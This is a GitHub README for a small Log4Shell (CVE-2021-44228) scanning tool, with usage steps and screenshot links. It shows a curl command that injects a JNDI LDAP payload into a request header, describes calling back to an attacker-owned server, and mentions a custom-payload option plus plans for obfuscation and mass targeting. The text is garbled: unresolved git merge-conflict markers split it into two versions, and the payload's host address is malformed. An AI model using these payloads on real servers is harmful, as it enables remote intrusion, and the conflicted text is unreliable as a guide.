 <<<<<<< Updated upstream
=======
---
title: "README"
tags: ""
---
>>>>>>> Stashed changes

# Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
<<<<<<< Updated upstream
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/a}
```
### Usage
![Imgur](https://i.imgur.com/PlMudwa.png)


### Example
Spin up a test target. In this example I use a vulnerable docker image provided by [@breadchris](https://github.com/breadchris)
![Imgur](https://i.imgur.com/Syt6SvE.png)
=======
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/o=refence}
```
### Usage
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/5c5d35acdd39c1cea1b4012476057b867cc7d0b6dcce35a6579b4c8805859452-image.png)

### Example

Spin up a test target

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/44e93d53cc0f2b43551cc2df6da7615cbb0364f9007c2dfa0dc82d3ff7220687-image.png)
>>>>>>> Stashed changes

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.
This is but one approach.

<<<<<<< Updated upstream
![Imgur](https://i.imgur.com/1g9wevT.png)


Run logshellper.py
![Imgur](https://i.imgur.com/WCEPj4U.png)


Check results. If the target show up on the attacker's server, the target is exploitable.
![Imgur](https://i.imgur.com/jZYjjmV.png)

### TODO
parse .csv file (i.e. exported form censys.io) to build targets.
add obfu option.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

=======
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/09035f0d15afe2eb34a28d1aa6a3f0fb0602148b4da54eb084c8fab539d1388b-image.png)

Run logshellper.py

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/84b326f78c4a6d0c7b88db8b9b20065e126a8864453e73de038a37902fa8843b-image.png)

Check results. If the target show up on the attacker's server, the target is exploitable.
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/0d7cd3edc7fbf29d1e4c05c9d9e15c3b420c238890a92ef4ccb1d01c655ee0e6-image.png)


### TODO
parse .csv file (i.e. exported form censys.io) to build targets.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

>>>>>>> Stashed changes
### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app
